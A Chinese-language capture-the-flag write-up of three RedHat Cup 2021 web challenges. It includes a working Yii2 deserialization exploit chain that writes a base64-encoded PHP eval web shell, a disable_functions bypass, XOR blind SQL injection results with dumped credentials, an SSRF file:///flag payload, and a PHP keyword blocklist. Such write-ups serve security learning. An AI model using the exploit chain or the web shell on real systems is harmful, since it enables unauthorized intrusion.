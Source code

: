 ```yaml
---
title: 红帽杯2021
comments: true
hide: false
date: 2021-05-09 20:43:09
urlname: redhat2021
updated:
password:
tags:
categories:
---
```




Web体验还行，不是太难，压轴题很合理

<!-- more -->

## WEB

### find_it

题目没啥意思23333，还老是503

扫下目录，访问`robots.txt` ，得到`1ndexx.php`，访问页面500报错，应该是缺参数，既然这样那肯定要给源码(不然寄刀片伺候)

发现备份文件`.1ndexx.php.swp`

```php
<?php

#Really easy...

$file=fopen("flag.php","r") or die("Unable 2 open!");

$I_know_you_wanna_but_i_will_not_give_you_hhh = fread($file,filesize("flag.php"));


$hack=fopen("hack.php","w") or die("Unable 2 open");

$a=$_GET['code'];

if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/',$a)){
	die("you die");
}
if(strlen($a)>33){
	die("nonono.");
}
fwrite($hack,$a);
fwrite($hack,$I_know_you_wanna_but_i_will_not_give_you_hhh);

fclose($file);
fclose($hack);
?>
```

ban了一堆函数，先看看phpinfo

payload：

```php
./?code=<?php phpinfo();
```

访问`hack.php`

搜索字符串，结果发现flag写在了环境变量里，被phpinfo暴露出来了

![web1flag](redhat2021/image-20210509205559176.png)

说实话，`1ndexx.php`和`index.php` 切换迷惑人，然后平台的问题，盲猜docker分发写环境变量，最后没删23333



---

### framework

扫到`www.zip`，看下是[Yii Framework2.0.32](http://github.com/yiisoft/yii2/)

去官网下原版比对一下，发现就改了个参数

#### [Yii2反序列化漏洞](https://www.cnblogs.com/thresh/p/13743081.html)

拿poc直接打，由于base64后可能会有`/`或者`+`等，所以先base64一下写函数解码即可

system似乎被ban了不行

```php
<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;

        public function __construct(){
            $this->checkAccess = 'assert';
            $this->id = "file_put_contents('1.php',base64_decode('PD9waHAgZXZhbCgkX1BPU1RbYV0pPz4='))";
        }
    }
}

namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;

        public function __construct(){
            // 这里需要改为isRunning
            $this->formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}

// poc2
namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this->processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess()));
}
?>
```

这里原poc打的参数是data，这里修改为message

![message](redhat2021/image-20210509210754051.png)

打过去就行，虽然报错但是已经执行了

![poc](redhat2021/36771C01-40D6-4C62-A2C3-A38B1D6CE696.png)

在当前目录会生成`1.php`，蚁剑连一下

![getshell](redhat2021/image-20210509211521847.png)

发现有disable_function，当时心凉一截，不会和蓝帽一样...

侥幸心理测了下蚁剑的突破插件，发现`Apache_mod_cgi`可以，执行根目录下`/readflag`即可

![web2flag](redhat2021/image-20210509211350611.png)



---

### WebsiteManger

打开登陆界面，估计是注入

看看连接，发现异常请求，还好没上来对着`username`乱试

![imagephp](redhat2021/image-20210509212002489.png)

经测试，可以使用异或 盲注

```
错误语句返回报错
正确语句错误表达返回：WHAT ARE YOU DOING
正确语句id为1返回图片
正确语句id为0返回空
```

![1^1](redhat2021/image-20210509212509022.png)

![1^0](redhat2021/image-20210509212527090.png)

![error](redhat2021/image-20210509212645414.png)

异或盲注脚本跑，可见以前写的WP

拿到信息如下

```
# version==========>5.5.60-0+deb8u1
# databases==========>ctf
# tables==========>images,users
# users.columns==========>username,password
# users.data==========>admin~a1d4f79c94f0cd3feeac4
```

似乎密码还是容器随机的，拿到用户名密码登陆

![ssrf](redhat2021/image-20210509213045341.png)

明显ssrf，用file协议读一下文件可行，直接读flag

payload：

```
file:///flag
```

![web3flag](redhat2021/image-20210509213219524.png)

